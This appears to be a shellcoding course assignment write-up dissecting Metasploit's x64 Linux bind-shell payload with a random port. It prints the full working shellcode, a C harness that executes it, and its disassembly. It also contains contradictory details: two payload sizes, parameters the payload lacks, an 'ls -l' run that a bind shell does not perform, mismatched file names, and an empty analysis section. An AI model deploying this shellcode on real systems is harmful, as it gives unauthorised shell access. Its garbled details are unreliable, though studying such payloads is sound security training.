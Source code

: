 ## Assignment #5.1: Shellcode `linux/x64/shell_bind_tcp_random_port` Dissection
---
---
### Introduction
---
The first `msfvenom` shellcode that is going to be dissected in functionality is the `linux/x64/shell_bind_tcp_random_port` payload.

Let's see it's options:
```bash
SLAE64>  msfvenom -p linux/x64/shell_bind_tcp_random_port --list-options
Options for payload/linux/x64/shell_bind_tcp_random_port:
=========================


       Name: Linux Command Shell, Bind TCP Random Port Inline
     Module: payload/linux/x64/shell_bind_tcp_random_port
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 57
       Rank: Normal

Provided by:
    Geyslan G. Bem <geyslan@gmail.com>

Description:
  Listen for a connection in a random port and spawn a command shell. 
  Use nmap to discover the open port: 'nmap -sS target -p-'.
```

The payload is only 78 bytes and it requires the following parameters:
- `LPORT`: The port to listen for the incoming connection
- `RHOST`: The target address

### Creating the Shellcode
---
Will execute the `ls -l` command. Decided to use a command that can receive options to check how the payload handles it. Also added the full path to make the command string a 7 bytes length only. Let's generate the payload:
```c
SLAE64> msfvenom -p linux/x64/shell_bind_tcp_random_port -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 57 bytes
Final size of c file: 264 bytes
unsigned char buf[] = 
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";
SLAE64> 
```
The generated payload size, this time did not change in size.

### Run Shellcode. The C Template
---
To run the shellcode, will use of the `shellcode.c` template renamoed to `Payload_02.c`. The shellcode is placed in the `code[]` string:
```c
#include <stdio.h>
#include <string.h>

unsigned char code[]= \
"\x48\x31\xf6\x48\xf7\xe6\xff\xc6\x6a\x02\x5f\xb0\x29\x0f\x05"
"\x52\x5e\x50\x5f\xb0\x32\x0f\x05\xb0\x2b\x0f\x05\x57\x5e\x48"
"\x97\xff\xce\xb0\x21\x0f\x05\x75\xf8\x52\x48\xbf\x2f\x2f\x62"
"\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05";

void main()
{
        printf("ShellCode Lenght: %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
Now it can be compiled:
```bash
gcc -fno-stack-protector -z execstack Payload_02.c -o Payload_02
```
When it's run, it shows the files of the directory:

<img src="https://galminyana.github.io/img/A052_Shellcode_Run.png" width="75%" height="75%">

### `objdump`: First Approach
---
Once we get the executable, will use `objdump` to disassemble the ASM code. As `objdump` disassembles the code by sections, the one of interest is the `<code>` section. Is the one containing the payload shellcode:

```asm
SLAE64> objdump -M intel -D Payload_01
**_REMOVED_**
0000000000004060 <code>:
    4060:	48 31 f6             	xor    rsi,rsi
    4063:	48 f7 e6             	mul    rsi
    4066:	ff c6                	inc    esi
    4068:	6a 02                	push   0x2
    406a:	5f                   	pop    rdi
    406b:	b0 29                	mov    al,0x29
    406d:	0f 05                	syscall 
    406f:	52                   	push   rdx
    4070:	5e                   	pop    rsi
    4071:	50                   	push   rax
    4072:	5f                   	pop    rdi
    4073:	b0 32                	mov    al,0x32
    4075:	0f 05                	syscall 
    4077:	b0 2b                	mov    al,0x2b
    4079:	0f 05                	syscall 
    407b:	57                   	push   rdi
    407c:	5e                   	pop    rsi
    407d:	48 97                	xchg   rdi,rax
    407f:	ff ce                	dec    esi
    4081:	b0 21                	mov    al,0x21
    4083:	0f 05                	syscall 
    4085:	75 f8                	jne    407f <code+0x1f>
    4087:	52                   	push   rdx
    4088:	48 bf 2f 2f 62 69 6e 	movabs rdi,0x68732f6e69622f2f
    408f:	2f 73 68 
    4092:	57                   	push   rdi
    4093:	54                   	push   rsp
    4094:	5f                   	pop    rdi
    4095:	b0 3b                	mov    al,0x3b
    4097:	0f 05                	syscall 
	...
**_REMOVED_**
SLAE64> 
```
Per the disassembled code, a total of 5 syscalls been used. Let's see which ones are for the values of RAX before `syscall` instruction:
- `sys_socket` : Value 0x29
- `sys_listen` : Value 0x32
- `sys_accept` : Value 0x2b
- `sys_??????` : Value 0x21
- `sys_execve` : Value 0x3b



### The Fun: GDB Analysis
---
















### GitHub Repo Files
---
The [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment05) for this assignment contains the following files:

- [Payload_01.c](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Payload_01.c) : The C file cloned from `shellcode.c` to execute the `linux/x64/exec` shellcode.
- [Shellcode_01.txt](https://github.com/galminyana/SLAE64/blob/main/Assignment05/Shellcode_01.txt) : The rax shellcode in hex into a text file.

### The End
---
This pages have been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html).

Student ID: PA-14628
 
